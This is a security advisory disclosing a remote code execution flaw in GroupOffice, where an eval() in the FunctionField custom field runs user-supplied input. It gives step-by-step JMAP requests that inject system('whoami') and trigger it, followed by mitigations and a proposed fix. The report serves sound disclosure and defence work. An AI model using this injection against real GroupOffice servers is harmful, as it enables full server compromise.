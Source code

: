 ```yaml
---
title: CVE XXXX-XXXXX
date: 2025-09-30 12:14:12 +1
categories: [CVE]
tags: [CVE, RCE]
---
```


# GroupOffice Remote Code Execution Vulnerability Report

## Executive Summary

A critical Remote Code Execution (RCE) vulnerability has been discovered in GroupOffice that allows authenticated users with custom field management privileges to execute arbitrary PHP code on the server. This vulnerability affects the custom field functionality and can lead to complete server compromise.

## Vulnerability Details

**Product**: GroupOffice  
**Affected Component**: Custom Field Function Field Type  
**Vulnerability Type**: Remote Code Execution (RCE)  
**Severity**: Critical (CVSS 3.1: 9.1)  
**Authentication Required**: Yes (with `mayChangeCustomFields` permission)  
**CVE ID**: Pending Assignment  

## Technical Description

The vulnerability exists in the `FunctionField` class located at `/www/go/core/customfield/FunctionField.php`. The `dbToApi()` method uses PHP's `eval()` function to execute user-controlled input without proper sanitization:

```php
// Line 65 in FunctionField.php
eval("\$result = " . $f . ";");
```

The variable `$f` contains the value from `$this->field->getOption("function")`, which is directly controlled by users who can create or modify custom fields of type "FunctionField".

## Proof of Concept

### Step 1: Create a FieldSet
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["FieldSet/set", {
      "create": {
        "temp1": {
          "name": "Test FieldSet",
          "entity": "Contact"
        }
      }
    }, "c1"]
]
```

### Step 2: Create Malicious FunctionField
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["Field/set", {
      "create": {
        "temp1": {
          "name": "Calculator Field",
          "fieldSetId": "1",
          "type": "FunctionField",
          "databaseName": "calc_field",
          "options": {
            "function": "system('whoami'); 42"
          },
          "sortOrder": 1
        }
      }
    }, "c1"]
]
```

### Step 3: Trigger Code Execution
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["Contact/get", {
      "ids": null,
      "properties": ["id", "name", "customFields"]
    }, "c1"]
]
```

### Expected Result
The server executes the `whoami` command and returns the result in the custom field value, demonstrating successful code execution.

## Impact Assessment

- **Complete Server Compromise**: Attackers can execute arbitrary system commands
- **Data Exfiltration**: Access to sensitive files and database contents
- **Lateral Movement**: Potential to compromise other systems on the network
- **Service Disruption**: Ability to modify or delete critical system files
- **Privilege Escalation**: Depending on web server configuration

## Affected Versions

This vulnerability affects GroupOffice installations that include the custom fields functionality. The exact version range needs to be determined by the development team.

## Prerequisites for Exploitation

1. Valid authentication to GroupOffice
2. User account with `mayChangeCustomFields` permission
3. Access to entities that support custom fields (Contacts, Notes, Tasks, etc.)

## Mitigation Recommendations

### Immediate Actions
1. **Disable FunctionField Type**: Remove or disable the FunctionField custom field type
2. **Review Permissions**: Audit users with `mayChangeCustomFields` permissions
3. **Monitor Logs**: Check for suspicious custom field creation activities

### Long-term Fixes
1. **Remove eval() Usage**: Replace `eval()` with a safe mathematical expression parser
2. **Input Validation**: Implement strict validation for function field expressions
3. **Sandboxing**: If mathematical expressions are needed, use a sandboxed parser library
4. **Code Review**: Audit all instances of `eval()`, `system()`, `exec()` in the codebase

## Proposed Fix

Replace the vulnerable code in `FunctionField.php`:

```php
// VULNERABLE CODE (Line 65)
eval("\$result = " . $f . ";");


// SECURE ALTERNATIVE
try {
    // Use a safe mathematical expression evaluator
    $parser = new MathExpressionParser();
    $result = $parser->evaluate($f);
} catch (Exception $e) {
    $result = null;
}
```

## Timeline

- **Discovery Date**: 2025-08-28
- **Vendor Notification**: 2025-08-29
- **Vendor Response**: Yes
- **Fix Released**: Fixed in 25.0.47 and 6.8.136

## Credit

Discovered by: Noah "nxvh" Heraud  
Contact: heraud260@gmail.com  

## Responsible Disclosure

This vulnerability is being reported following responsible disclosure practices. We request:

1. Acknowledgment of this report within 5 business days
2. Regular updates on remediation progress
3. Credit in security advisories and release notes
4. Coordination on public disclosure timing

## References

- [GroupOffice Official Website](https://www.group-office.com/)
- [OWASP Code Injection Prevention](https://owasp.org/www-community/attacks/Code_Injection)
- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html)

